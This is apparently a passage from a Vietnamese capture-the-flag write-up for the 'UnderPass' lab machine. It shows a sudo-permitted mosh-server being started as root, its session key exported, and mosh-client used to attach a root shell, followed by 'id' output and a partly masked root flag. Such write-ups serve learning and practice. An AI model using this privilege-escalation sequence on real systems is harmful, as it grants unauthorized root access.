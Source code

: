 Kiểm tra các tùy chọn của `mosh-server`:

```zsh
svcMosh@underpass:~$ sudo /usr/bin/mosh-server --help
Usage: /usr/bin/mosh-server new [-s] [-v] [-i LOCALADDR] [-p PORT[:PORT2]] [-c COLORS] [-l NAME=VALUE] [-- COMMAND...]
```

Kiểm tra mã số tiến trình của mosh-server.

![UnderPass/images/5.png](UnderPass/images/5.png)

#### <span style="color: #ebe134;">Khai thác</span>

Tức là `Mosh` sẽ tạo một phiên lắng nghe và sẵn sàng kết nối nếu được yêu cầu. Mở ra một shell với người dùng đó.
Vấn đề ở đây là khi ta kiểm tra mã tiến trình của `mosh`, nó đang được chạy bởi `root`. Có nghĩa là ta sẽ kết nối trực tiếp đến phiên này thông qua mã định danh và cổng kết nối, lúc này, ta sẽ có shell của người dùng `root`.

Tôi sẽ sử dụng `mosh-client`, trước hết, cần tìm hiểu câu lệnh đầy đủ:

```zsh
svcMosh@underpass:~$ mosh-client -# "/bin/bash" 127.0.0.1 60001
MOSH_KEY environment variable not found.
```

Shell as root:
```zsh
svcMosh@underpass:~$ sudo /usr/bin/mosh-server 


MOSH CONNECT 60001 rnJQ6L+HaXYEw1LTAUmH0Q

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 3015]
svcMosh@underpass:~$ export MOSH_KEY="rnJQ6L+HaXYEw1LTAUmH0Q"
svcMosh@underpass:~$ mosh-client -# "/bin/bash" 127.0.0.1 60001
```

And bump!

```zsh
root@underpass:~# id
uid=0(root) gid=0(root) groups=0(root)
root@underpass:~# cat /root/root.txt 
4769e56724a.............de0326dad
root@underpass:~# 
```

